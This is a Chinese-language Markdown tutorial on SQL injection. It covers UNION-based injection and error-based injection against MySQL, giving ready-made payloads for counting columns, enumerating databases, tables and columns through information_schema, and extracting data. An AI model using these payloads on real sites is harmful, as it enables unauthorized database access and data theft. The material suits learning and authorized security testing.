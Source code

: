 # 注入法详解
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 回显注入法(能在页面直接显示结果)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1.UNION联合查询: 通过 union 操作符，合并两个或者多个select语句的结果集
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union内部的select语句必须拥有**相同数量的列**，列的数据类型必须相似，列的顺序也必须相同
![](/assets/WX20190221-152225@2x.png)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union注入法前提要**知道列数**和**页面能回显**，一般注入步骤如下:
```sql
确定列数: order by NUM，NUM采用二分方法加快查询速度，NUM回显报错就说明超过列数
显示位置: 参数 union select num1，num2，..,NUM，参数要强制报错，才能显示返回数据的位置
查询库: union select num1,group_concat(schema_name) from information_schema.schemata
查询表: union select num1,group_concat(table_name) from information_schema.tables where table_schema=database()
查询列: union select num1,group_concat(column_name) from information_schema.columns where table_name='表名'(注1)
查数据: union select num1,concat_ws(0x7e,列名,列名) from 库名.表名

注意点: 1.表名加引号，推荐改为十六进制

```
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2.报错查询: 构造payload让信息通过错误提示回显出来
![](/assets/F959A1FB7211CB335A3944DE5CBA4FF1.png)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**报错注入方法如下:**经典报错函数，结合Burpsuite快速获取内容
![](/assets/2DA57441F54D5F917232F998ACD62900.png)
![](/assets/7DF1248C5FA74AA8624787ECEBB8C368.png)
```sql
and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2))) %23
select version()可替换 select table_name from information_schema.tables where table_schema=database() limit 0,1
```
![](/assets/22F086091F949BB64B59D97865EFE310.png)
![](/assets/26024E61529BC7DF606D3641DB676AAB.png)

**注意: [其他报错方式](https://www.waitalone.cn/mysql-error-based-injection.html)、报错返回会有32限制(采用substr(concat(内容),1,2)截取)**








